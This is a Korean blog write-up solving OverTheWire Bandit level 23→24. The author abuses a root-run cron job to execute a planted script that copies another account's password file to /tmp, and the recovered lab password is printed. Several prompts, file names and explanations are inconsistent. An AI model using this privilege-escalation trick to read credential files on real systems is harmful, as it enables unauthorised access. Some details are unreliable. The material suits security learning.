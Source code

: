 ```yaml
---
title: "Bandit Level 23 → Level 24"
date: 2024-02-12
categories: [Wargames]
tags: [Wargames, Bandit]
---
```


## 문제
<https://overthewire.org/wargames/bandit/bandit24.html>

## 목표
다음 레벨의 패스워드를 찾는다.
> 시간 기반 작업 스케줄러 `cron`에서 일정한 간격으로 프로그램이 실행된다. `/etc/cron.d/` 에서 어떤 명령이 실행되고 있는지 확인해라.

## 풀이

```sh
bandit22@bandit:~$ cd /etc/cron.d/
bandit22@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
```  

`/etc/cron.d/`로 이동해서 파일 목록을 확인해보니 `cronjob_bandit22`라는 파일이 보인다.  

<br>  

```sh
bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```

파일의 내용을 보니 프로그램 부팅시, 매분 매초 `/usr/bin/cronjob_bandit23.sh` 파일을 `/dev/null`로 버린다고 한다.

<br>  

```sh 
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

파일의 내용을 확인해보면 `/var/spool/bandit24/foo`에 있는 모든 스크립트들 중 소유자가 `bandit23`인 경우 실행하고 60초 뒤에 모든 파일을 삭제한다고 한다.  

<br>  

60초 안에 스크립트를 작성하기는 힘드니 새 디렉토리에 패스워드를 알아내는 스크립트를 작성한다.  

```sh
bandit23@bandit:/etc/cron.d$ mkdir /tmp/new_dir
bandit23@bandit:/etc/cron.d$ cd /tmp/new_dir
bandit23@bandit:/tmp/new_dir$ vi Password.sh
```

```sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/Password
```  

<br>  

파일을 읽을 수 있게 권한을 추가해준 뒤 `/var/spool/bandit24/foo`로 파일을 복사해준다.  

```sh
bandit23@bandit:/tmp/new_dir$ chmod +x Password.sh
bandit23@bandit:/tmp/new_dir$ cp Password.sh /var/spool/bandit24/foo/Password.sh
```  

<br>  

`/tmp/Password`에 저장된 패스워드를 확인한다.  

```sh
bandit23@bandit:/tmp/new_dir$ cat /tmp/Password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```  

<br>  

**Password : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**

## 배운 것

- 쉘 스크립트를 작성하는 방법